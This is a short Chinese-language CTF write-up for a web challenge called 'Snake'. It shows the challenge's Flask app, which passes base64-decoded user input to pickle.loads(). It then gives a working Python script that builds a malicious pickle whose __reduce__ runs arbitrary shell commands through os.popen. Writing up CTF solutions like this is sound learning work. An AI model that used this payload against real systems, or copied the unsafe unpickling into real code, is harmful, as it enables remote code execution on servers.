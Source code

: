 就拿到flag惹，松鼠蠻可愛的ww

---------------------------------------------------

### Web - Snake

這題我是在結束之後才看到的，原來其實很簡單QwQ

題目給的python，會讀網址的data參數，base64解碼之後丟給pickle.loads()：

```python
from flask import Flask, Response, request
import pickle, base64, traceback

Response.default_mimetype = 'text/plain'

app = Flask(__name__)

@app.route("/")
def index():
    data = request.values.get('data')
    
    if data is not None:
        try:
            data = base64.b64decode(data)
            data = pickle.loads(data)
            
            if data and not data:
                return open('/flag').read()

            return str(data)
        except:
            return traceback.format_exc()
        
    return open(__file__).read()
```

弄了好就才發現那個`if data and not data`根本只是來告訴你flag在哪裡而已=_=

其實這題的考點在於`pickle.loads()`這個函式有漏洞，如果放入一個設計過的class就可以執行任意python函式。像這樣：

```python
import pickle
import pickletools
from base64 import b64encode as b64
import subprocess

cmd = input('enter command\n$ ').strip('\n')
class Exploit():
    def __reduce__(self):
        
        command = ("__import__('os').popen('"+ cmd +"').read()")

        return (eval, (command, ))

pickled = pickle.dumps(Exploit())
print(b64(pickled))
```
